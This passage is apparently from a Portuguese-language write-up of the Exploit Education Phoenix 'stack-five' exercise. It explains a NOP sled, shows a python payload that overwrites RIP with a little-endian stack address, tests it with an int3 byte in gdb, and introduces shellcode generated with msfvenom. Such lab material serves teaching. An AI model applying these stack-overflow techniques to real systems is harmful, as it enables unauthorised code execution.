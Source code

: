 A representação em machine code do NOP é 0x90 :D Bem fácil de decorar, quem me dera escola fosse fácil assim hehehe :)

O processador vai fazer nada e passar para a próxima, e se nós colocarmos varios desses em sequencia, o RIP vai "deslizando" através até chegar no nosso código!

Você pode imaginar um escorregador :D yuuuuupiii

![](https://raw.githubusercontent.com/0xturazzi/Writeups/master/ExploitEducation-Phoenix-PT-BR-%20%F0%9F%87%A7%F0%9F%87%B7/img/panda_slide_1.gif)

Então a gente redireciona o RIP para o meio do escorregador de NOPs, para ele delizar até o nosso código :D

Assim, mesmo se o buffer estiverem em um endereço diferente, o RIP vai chegar no nosso shellcode

Para testar isso, vamos usar o truque do 0xCC mencionado anteriormente

O input que vai passar vai conter:

```
NOP * 135
0xCC
Enderço para ser colocado no RIP: 0x00007fffffffe5b0 + 70
```
E os breakpoints do gdb serão removidos, então caso encontremos um breakpoint, foi o 0xCC acima

O endereço colcado será no meio do slide, e não no inicio: nós bão sabemos se a diferença no endereço vai ser para cima ou pra baixo!
```
$ python3
>>> hex(0x00007fffffffe5b0 + 70)
'0x7fffffffe5f6'                     - Little Endian -> '\xb6\xe5\xff\xff\xff\x7f'
```
Agora executando:
```
r <<< $(python -c "print '\x90' *135 + '\xcc' +'\xb6\xe5\xff\xff\xff\x7f'")
```
Nos recebemos uma SIGTRAP (chegou no breakpoint)
```
[#0] Id 1, Name: "stack-five", stopped, reason: SIGTRAP
```
E na seção `code` do gef
![](https://raw.githubusercontent.com/0xturazzi/Writeups/master/ExploitEducation-Phoenix-PT-BR-%20%F0%9F%87%A7%F0%9F%87%B7/img/stack%20five/gef_run_xCC.png)

> int3 é o nome de 0xCC, da mesma maneira que NOP é o nome de 0x90 

Apos a nossa ultima intrução ha intruções invalidas `(bad)` que eram o nosso pointer, e logo em seguida o resto do programa normal! :D

## Shellcode

Shellcode é o codigo malicioso que vai ser executado ( normalmente te dando uma shell (terminal) não autorizada )

Nos podemos usar os do link citado na dica, ou gerar uma usando msfvenom (ja vem instalado no kali linux)
